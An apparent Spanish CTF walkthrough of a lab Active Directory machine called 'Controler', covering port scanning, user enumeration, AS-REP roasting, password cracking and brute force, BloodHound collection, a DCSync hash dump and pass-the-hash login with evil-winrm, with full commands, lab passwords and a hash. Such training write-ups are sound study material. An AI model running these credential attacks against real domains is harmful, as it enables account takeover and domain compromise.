 ```yaml
---
description: '🔍 Dificultad: Media'
---
```


# Controler

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.50
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1655).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.50
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-21 162504.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, se identificaron múltiples puertos abiertos relacionados con **servicios típicos de Active Directory en un entorno Windows Server**. A continuación, se detalla cada uno:

| Puerto          | Servicio                 | Descripción                                                                   | Relevancia en Pentesting                                                        |
| --------------- | ------------------------ | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **53**          | DNS (Simple DNS Plus)    | Servicio de resolución de nombres. Fundamental para la operación del dominio. | Enumeración de zonas, DNS spoofing, análisis de transferencias (`dig axfr`).    |
| **88**          | Kerberos                 | Protocolo de autenticación utilizado por AD.                                  | Objetivo de ataques como Kerberoasting, Pass-the-Ticket, Golden Ticket.         |
| **135**         | MS RPC                   | Microsoft RPC endpoint mapper.                                                | Comunicación entre servicios. Puede facilitar enumeración vía `rpcclient`.      |
| **139**         | NetBIOS-SSN              | Servicio para compartir archivos e impresoras (NetBIOS).                      | Usado con `smbclient`, `enum4linux-ng`, `smbmap`.                               |
| **389**         | LDAP                     | Protocolo para acceder al directorio (modo sin cifrar).                       | Enumeración de usuarios, grupos, SPNs, flags UAC. Clave en enumeración AD.      |
| **445**         | SMB (Microsoft-DS)       | Compartición de archivos en Windows.                                          | Dump de hashes, movimiento lateral (SMBexec, Psexec), enumeración sin creds.    |
| **464**         | kpasswd5                 | Servicio para cambio de contraseñas vía Kerberos.                             | Interesante para ataques como _krbrelayx_ o abuso de cuentas.                   |
| **593**         | RPC over HTTP            | Comunicación RPC encapsulada en HTTP.                                         | Utilizado por Exchange, Outlook y otras apps. A veces base de ataques internos. |
| **636**         | LDAPS (tcpwrapped)       | LDAP sobre SSL/TLS.                                                           | Enumeración segura del directorio, aunque a menudo filtrado o cifrado.          |
| **3268**        | Global Catalog (LDAP)    | Puerto usado para consultas a todo el bosque AD.                              | Ideal para enumerar objetos de todo el dominio.                                 |
| **3269**        | GC over SSL (tcpwrapped) | Versión segura del Global Catalog.                                            | Misma funcionalidad que el 3268, pero cifrado.                                  |
| **5985**        | WinRM (HTTP)             | Windows Remote Management.                                                    | Punto de entrada para `evil-winrm`. Fundamental para ejecución remota.          |
| **9389**        | .NET Message Framing     | Servicio para autenticación de AD Web Services (ADWS).                        | Utilizado por PowerShell Remoting, BloodHound, etc.                             |
| **47001**       | HTTPAPI                  | Servicio adicional HTTP, generalmente WinRM.                                  | Usado por PowerShell Remoting.                                                  |
| **49664–49712** | MS RPC dinámicos         | Puertos de comunicación RPC asignados dinámicamente.                          | Relevantes para movimiento lateral, enumeración y abuso de servicios remotos.   |

### 🔎 **EXPLORACIÓN**

Tras el escaneo, hacemos una enumeración **SMB**.

```
nxc smb 192.168.1.50
```

<figure><img src="../../.gitbook/assets/image (1662).png" alt=""><figcaption></figcaption></figure>

Tenemos un dominio que añadimos al fichero `/etc/hosts`. Miramos los recursos compartidos.

```
nxc smb 192.168.1.50 --shares -u '' -p ''
```

<figure><img src="../../.gitbook/assets/image (1663).png" alt=""><figcaption></figcaption></figure>

```
smbmap --no-banner -H 192.168.1.50 -u '' -p ''
```

<figure><img src="../../.gitbook/assets/image (1664).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Tras no encontrar nada, intentamos sacar usuarios a través del dominio.

```
./kerbrute userenum -d control.nyx --dc 192.168.1.50 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

```
nxc smb 192.168.1.50 -u 'administrator' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

Encontramos al usuario Administrator pero los tiros no van por ahí. Entonces pensé que hay diccionarios especiales para enumerar entornos empresariales por lo que tiene sentido realizar fuerza bruta con esos.

{% @github-files/github-code-block url="https://github.com/attackdebris/kerberos_enum_userlists/" %}

<figure><img src="../../.gitbook/assets/image (1665).png" alt=""><figcaption></figcaption></figure>

Al verificar la cuenta del usuario válido **b.lewis** a nivel de dominio, se confirma que tiene configurado el atributo **UF\_DONT\_REQUIRE\_PREAUTH**. Esto permite obtener con éxito su **Ticket Granting Ticket (TGT)** sin necesidad de preautenticación.

<figure><img src="../../.gitbook/assets/image (1666).png" alt=""><figcaption></figcaption></figure>

Crackeamos el hash resultante.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

<figure><img src="../../.gitbook/assets/image (1667).png" alt=""><figcaption></figcaption></figure>

Validamos las credenciales.

```
netexec smb 192.168.1.50 -u 'b.lewis' -p '101Music'
```

<figure><img src="../../.gitbook/assets/image (1668).png" alt=""><figcaption></figcaption></figure>

Miramos si podemos conectarnos.

```
netexec winrm 192.168.1.50 -u 'b.lewis' -p '101Music'
```

<figure><img src="../../.gitbook/assets/image (1669).png" alt=""><figcaption></figcaption></figure>

No tenemos acceso. Hay que seguir enumerando más usuarios.

```
netexec smb 192.168.1.50 -u 'B.LEWIS' -p '101Music' --users
```

<figure><img src="../../.gitbook/assets/image (1670).png" alt=""><figcaption></figcaption></figure>

Tenemos a mayores un usuario con el acceso habilitado por lo que hacemos fuerza bruta con él.

```
netexec smb 192.168.1.50 -u 'j.levy' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

<figure><img src="../../.gitbook/assets/image (1671).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Validamos las credenciales de este usuario y ya de paso miramos si tenemos acceso.

```
evil-winrm -i 192.168.1.50 -u 'j.levy' -p 'Password1'
```

<figure><img src="../../.gitbook/assets/image (1672).png" alt=""><figcaption></figcaption></figure>

Vamos a hacer una recolección de los datos.

```
bloodhound-python -ns 192.168.1.50 -dc control.nyx -u 'b.lewis' -p '101Music' -d control.nyx -c all --zip
```

<figure><img src="../../.gitbook/assets/image (1673).png" alt=""><figcaption></figcaption></figure>

El usuario **j.levy@control.nyx** posee el privilegio **AllExtendedRights**, que incluye los permisos de replicación DS-Replication-Get-Changes y -Get-Changes-All; eso lo convierte, a efectos prácticos, en un “mini controlador de dominio” capaz de lanzar un **DCSync** con `secretsdump.py` y extraer todos los hashes del directorio—una puerta abierta a comprometer por completo la seguridad del dominio.

```
impacket-secretsdump control.nyx/j.levy:'Password1'@192.168.1.50 -just-dc-user administrator
```

<figure><img src="../../.gitbook/assets/image (1674).png" alt=""><figcaption></figcaption></figure>

Como obtenemos el hash del usuario administrator ya nos podemos conectar.

```
evil-winrm -i 192.168.1.50 -u 'administrator' -H '48b20d4f3ea31b7234c92b71c90fbff7'
```

<figure><img src="../../.gitbook/assets/image (1675).png" alt=""><figcaption></figcaption></figure>

Ya podemos conseguir las **flags**.

<figure><img src="../../.gitbook/assets/image (1676).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1677).png" alt=""><figcaption></figcaption></figure>
